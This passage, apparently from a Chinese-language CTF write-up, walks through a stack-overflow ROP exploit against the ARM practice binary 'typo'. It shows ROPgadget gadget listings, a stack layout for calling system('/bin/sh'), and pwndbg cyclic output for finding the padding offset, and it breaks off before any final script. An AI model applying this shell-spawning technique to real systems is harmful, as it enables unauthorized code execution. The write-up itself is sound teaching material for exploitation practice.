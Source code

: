 程序的輸入點不多，很容易就能找到溢出點

### 構造 ROP 
因此思路就很明顯了，利用棧溢出構造 **system("/bin/sh")**， 先找一下 gadgets
```bash
jarvisOJ_typo [master●●] ROPgadget --binary ./typo --only "pop"   
Gadgets information
============================================================
0x00020904 : pop {r0, r4, pc}
0x00068bec : pop {r1, pc}
0x00008160 : pop {r3, pc}
0x0000ab0c : pop {r3, r4, r5, pc}
0x0000a958 : pop {r3, r4, r5, r6, r7, pc}
0x00014a70 : pop {r3, r4, r7, pc}
0x000083b0 : pop {r4, pc}
0x00009284 : pop {r4, r5, pc}
0x000095b8 : pop {r4, r5, r6, pc}
0x000082e8 : pop {r4, r5, r6, r7, pc}
0x00023ed4 : pop {r4, r5, r7, pc}
0x00023dbc : pop {r4, r7, pc}
0x00014068 : pop {r7, pc}

Unique gadgets found: 13
```

我們只需要控制第一個參數，因此可以選擇 `pop {r0, r4, pc}` 這條 gadgets, 來構造如下的棧結構
```
+-------------+
|             |
|  padding    |
+-------------+
|  padding    | <- frame pointer
+-------------+ 
|gadgets_addr | <- return address
+-------------+
|binsh_addr   |
+-------------+
|junk_data    |
+-------------+
|system_addr  |
+-------------+
```

這時還需要 padding 的長度和 system 以及 /bin/sh 的地址， /bin/sh 的地址用 ROPgadget 就可以找到
```bash
jarvisOJ_typo [master●●] ROPgadget --binary ./typo --string /bin/sh
Strings information
============================================================
0x0006cb70 : /bin/sh
```
padding 的長度可以使用 pwntools 的 **cyclic** 來很方便的找到
```assembly
pwndbg> cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
pwndbg> c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────
 R0   0x0
 R1   0xfffef024 ◂— 0x61616161 ('aaaa')
```